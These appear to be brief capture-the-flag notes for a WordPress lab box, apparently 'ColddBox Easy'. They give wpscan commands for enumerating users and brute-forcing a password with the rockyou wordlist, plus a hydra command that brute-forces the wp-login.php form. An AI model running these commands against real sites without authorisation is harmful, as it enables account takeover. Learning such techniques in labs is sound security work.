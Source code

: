 

wpscan can search for vulns, run first

enum users with wpscan
`wpscan --url http://<ip> -e u`
Brute force users with wpscan
`wpscan --url http://<ip> --usernames c0ldd -P /usr/share/wordlists/rockyou.txt`

Brute force with hydra
`hydra -L wpusers -P /usr/share/wordlists/rockyou.txt colddboxeasy -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'`
